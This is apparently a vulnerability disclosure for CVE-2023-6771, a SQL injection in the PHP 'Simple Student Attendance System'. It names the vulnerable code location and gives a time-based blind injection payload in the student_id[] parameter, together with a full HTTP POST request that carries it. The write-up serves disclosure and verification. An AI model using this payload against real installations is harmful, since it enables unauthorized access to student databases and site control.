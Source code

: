 # Simple Student Attendance System has a vulnerability of SQL injection(CVE-2023-6771)
Source code download：https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html

version：2023/11/30

Vulnerability description: The system has a SQL injection vulnerability, and attackers can obtain database information and website control permissions by inserting malicious SQL statements.

The cause of the vulnerability: The vulnerability occurs on line 165 of classes\actions.class.php. The input from the user has not been filtered, resulting in the execution of malicious SQL statements
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111608669.jpg)
Vulnerability verification: After setting up the system, access the local port 80
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609232.png)
At the attendance function, capture and save the traffic package for attendance
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609233.png)
Pass the payload in the student_id[] parameter:
```php
83'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609234.png)

The response will pause for a multiple of 3 seconds, which is 6 seconds, successfully verifying that there is a SQL injection vulnerability at this location.

payload:

```php
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 150
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=rbh6d8kdgfbbvame4b8ul5ujmn
Referer: http://127.0.0.1/php-attendance/?page=attendance&class_id=1&class_date=2023-12-05
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

class_date=2023-12-05&class_id=1&student_id%5B%5D=83%27and%28select%2Afrom%28select%2Bsleep%283%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

sqlmap verification：

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609236.png)
